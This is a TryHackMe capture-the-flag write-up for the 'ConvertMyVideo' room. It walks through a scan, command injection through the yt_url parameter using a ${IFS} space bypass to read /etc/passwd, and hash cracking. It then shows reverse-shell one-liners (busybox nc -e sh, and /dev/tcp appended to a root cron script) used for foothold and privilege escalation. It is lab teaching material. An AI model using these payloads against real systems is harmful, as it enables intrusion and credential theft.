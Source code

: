 ```yaml
---
title: "ConvertMyVideo"
date: 2025-03-29
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```


## Enumeration

Lets start with the nmap scan.
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-28 18:22 +0545
Nmap scan report for 10.10.34.159 (10.10.34.159)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.76 seconds
```

Hmmm lets see whats in port 80.
![](Pasted%20image%2020250329005821.png)
Hmm as the name suggest,it converts a video or mp4 to mp3.
Hmmm lets check for any special features that we might need.
![](Pasted%20image%2020250329005836.png)
And interesingly,it asks for video id.
Hmmm.

Ohhh after seeing the souce code,i found out that it was asking for youtube video id.
![](Pasted%20image%2020250329005851.png)

Hmmm so as that code,it asks for video id of youtube and make us able to download the mp3 version.
Lets just check by passing one video from youtube.
![](Pasted%20image%2020250329005910.png)
Lets pass this videos id.
Ohh this is long video,lets use shorter one.
![](Pasted%20image%2020250329005922.png)

Lets see how it works.
![](Pasted%20image%2020250329005933.png)
I don't know why but its taking very long.

And few more things from directory busting.
![](Pasted%20image%2020250329005945.png)
And authentication in `/admin`.
![](Pasted%20image%2020250329005957.png)

But we don't have any username or password.
Hmmm.
And there is `/tmp` which is forbidden.
Hmmm interesting.

I captured the requests in burp.
![](Pasted%20image%2020250329010007.png)

Hmm so `yt_url` parameter is going on that video.
But what can we do here?
SSRF,LFI or just huge rabbithole.

Hmm interesting.
![](Pasted%20image%2020250329010019.png)

Hmmm very very interesting.
According to it,there is downloads folder in `/tmp` and there is mp3 file but there is nothing.
![](Pasted%20image%2020250329010029.png)

Hmmm,I am missing something.
So as far I understand it download the mp3 from passed video and save that in `/tmp/downloads` as mp3 file.

![](Pasted%20image%2020250329010040.png)
Hmm.

I guess we can do ssrf.
![](Pasted%20image%2020250329010059.png)

Hmm interesting.
And I am stuck for few hours.
Okay lets just see the part of writeup.
Hmmm so from the result we have got for now reveals that its using something `youtube-dl`.
Lets search for it.
![](Pasted%20image%2020250329010123.png)

## Exploit

Hmm interesting.
And command injection was also possible cause its running a command of `youtube-dl`,so we can use pipe to inject command too.
![](Pasted%20image%2020250329010133.png)

Okay let's continue to get shell or something.
But again it is not compatible.
We can't run long commands and many more.
(we couldn't use spaces i guess)

After some talk with chatGPT,we came up with this.
```Bash
yt_url=|cat${IFS}/etc/passwd;
```

So here that `${IFS}` worked as a space.

We could now read files easily.
![](Pasted%20image%2020250329010144.png)

Great.Now lets try to get shell or complete this rooms's goal.
We can read index.php.
![](Pasted%20image%2020250329010212.png)
![](Pasted%20image%2020250329010224.png)
We got the flag.txt.

As well as there is `.htaccess`file.
![](Pasted%20image%2020250329010243.png)
![](Pasted%20image%2020250329010332.png)


Now we can read that.
![](Pasted%20image%2020250329010344.png)

Lets crack the password hash.
![](Pasted%20image%2020250329010355.png)

## Foothold

And now we can login.
But I was wondering if we can execute command,can i get shell from that.
I tried different things but this one worked.
```bash
busybox${IFS}nc${IFS}ip${IFS}9999${IFS}-e${IFS}sh;
```
![](Pasted%20image%2020250329010411.png)

Lets also do it from `/admin`.
Cause we can also execute command by that cause we can see this.
![](Pasted%20image%2020250329010422.png)

So lets login and execute command.
![](Pasted%20image%2020250329010433.png)

## Privelege Escalation

Now we have got the shell,lets try to escalate our priveleges.
Lets run [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).
Nothing interesting.
Lets also run [pspy](https://github.com/DominicBreuker/pspy/releases).


And we saw something interesting.
![](Pasted%20image%2020250329010455.png)
Hmm so clean.sh is running as root.
Lets check the permission of that script.
![](Pasted%20image%2020250329010506.png)

So we can edit and escalate to root.
I added this line in clean.sh.
```bash
sh -i >& /dev/tcp/ip/9999 0>&1
```

Now lets wait for some time and see if we got a root shell or not.
![](Pasted%20image%2020250329010518.png)

## Done

And done.
![](Pasted%20image%2020250329010530.png)

Again learned lots of things.I hope you are doing awesome.
Take Care!

